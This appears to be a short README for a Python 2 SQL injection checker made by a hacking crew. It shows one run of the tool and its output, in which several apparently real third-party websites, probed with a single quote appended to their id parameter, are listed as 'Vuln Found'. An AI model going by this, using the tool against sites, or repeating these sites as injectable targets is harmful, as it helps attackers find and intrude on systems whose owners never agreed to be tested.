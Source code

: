 # Sqli-Ceker

`` `
Inyour@G00D-PC ~/PycharmProjects/Sqli-Checker $ python2 vulnCeker.py list.txt
###################################################
(\_____/)Sqli Vuln Checker
 (=°~°~) by:InYourG00DfeatSULTAN
(")___(")TEAM:S.T.C-LNX#CREW-BUFT
How To Use: \n \t python2 vulnCeker.py list
###################################################
[*] http://www.tunesoman.com/product.php?id=200' ==[> Vuln Found.
[*] http://www.atmarine.fi/index.php?id=2' ==[> Vuln Found.
[!] http://saliyorum.com/index.php?id=00' ==[> Connection Error!
[*] http://www.pro-section.com/boutique06/achat/index.php?id=1' ==[> Vuln Found.
[*] http://www.katun.me/page.php?id=10' ==[> Vuln Found.
[*] http://webscantest.com/datastore/search_get_by_id.php?id=4' ==[> Vuln Found.
[-] https://www.id.ee/index.php?id=30470' ==[> Vuln Not Found.
[-] http://www.ebcc.info/index.php?ID=509' ==[> Vuln Not Found.
###################################################

```
